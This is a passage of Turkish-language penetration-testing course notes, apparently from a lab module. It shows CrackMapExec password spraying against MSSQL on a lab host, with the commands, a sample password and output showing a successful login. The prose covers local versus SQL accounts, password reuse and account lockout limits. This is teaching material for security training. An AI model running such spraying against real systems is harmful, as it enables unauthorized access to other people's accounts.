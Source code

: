 ### Password Spray - Local Windows Account

```
crackmapexec mssql 10.129.203.121 -u julio grace -p Inlanefreight01! -d .

MSSQL 10.129.203.121 1433 None [*] None
(name:10.129.203.121) (domain:.)
MSSQL 10.129.203.121 1433 None [-]
ERROR(DC01\SQLEXPRESS): Line 1: Login failed. The login is from an
untrusted domain and cannot be used with Integrated authentication.
MSSQL 10.129.203.121 1433 None [+]
.\grace:Inlanefreight01!

```

Not: Bu bir Domain Controller olduğundan, Windows local hesapları kullanılmamıştır. Bu örnek, local windows hesapları ile Domain Controller olmayan bir makine hedeflendiğinde geçerli olacaktır.

Genellikle administrators, local kullanım veya test için Active Directory hesaplarıyla aynı isimde hesaplar oluşturabilirler. Active Directory hesabı ile aynı ad ve parola ile oluşturulmuş MSSQL hesapları bulabiliriz. Parolanın yeniden kullanımı çok yaygındır! Bir SQL Hesabı denemek istiyorsak, `--local-auth` bayrağını belirtmemiz gerekir:


### Password Spray - SQL Account

```
crackmapexec mssql 10.129.203.121 -u julio grace -p Inlanefreight01! --
local-auth

MSSQL 10.129.203.121 1433 DC01 [*] Windows 10.0 Build
17763 (name:DC01) (domain:DC01)
MSSQL 10.129.203.121 1433 DC01 [-]
ERROR(DC01\SQLEXPRESS): Line 1: Login failed for user 'julio'.
MSSQL 10.129.203.121 1433 DC01 [+]
grace:Inlanefreight01!
```

Gördüğümüz gibi, grace hesabı aynı parola ile MSSQL veritabanında local olarak mevcuttur.

### Other Protocols

Unutmayın ki, bazen bir kullanıcı administrator olmayabilir, ancak RDP, SSH, FTP gibi diğer protokollere erişim yetkisine sahip olabilir. Bu, Password Spraying yaparken hedefi anlamanın ve olabildiğince çok protokole saldırı yapmanın önemli olduğu bir durumdur.

Not: Active Directory kimlik doğrulaması kullanarak Password Spray yaparken, başarısız şifre deneme sayısı tüm protokoller için aynı olacaktır. Örneğin, eğer kilitlenme sınırı beş deneme ise ve biz üç şifreyi RDP üzerinden, iki şifreyi ise WinRM karşısında denersek, toplamda 5'e ulaşılacak ve hesabın kilitlenmesine sebep olacağız.


### Next Steps

Bu bölümde, geçerli kimlik bilgilerini belirlemeye ve domain'e erişim sağlamaya çalışmak için bir kullanıcı listesi kullanarak farklı protokollere karşı Password Spraying'in nasıl gerçekleştirileceğini öğrendik. Bir sonraki bölümde, `brute forcing` veya `Password` `Spray` olmadan hesapları tanımlamak için diğer mekanizmalar tartışılacaktır.
